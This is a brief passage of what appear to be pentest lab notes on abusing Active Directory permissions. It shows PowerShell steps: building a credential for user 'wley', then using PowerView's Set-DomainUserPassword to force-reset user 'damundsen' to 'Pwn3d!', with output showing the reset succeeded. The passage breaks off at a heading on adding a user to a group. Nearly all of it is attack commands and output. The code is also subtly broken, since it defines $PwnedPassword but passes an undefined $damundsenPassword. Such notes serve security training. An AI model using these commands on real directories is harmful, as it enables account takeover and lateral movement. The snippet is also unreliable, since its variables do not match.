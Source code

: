 #### Password Reset (User-Force-Change-Password)
Create `PSObject` Credential
```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```
Create `SecureString `Object for user to abuse
```powershell
$PwnedPassword = ConvertTo-SecureString 'Pwn3d!' -AsPlainText -Force
```
Change users password
```powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```

#### Adding User to Group (GenericWrite)
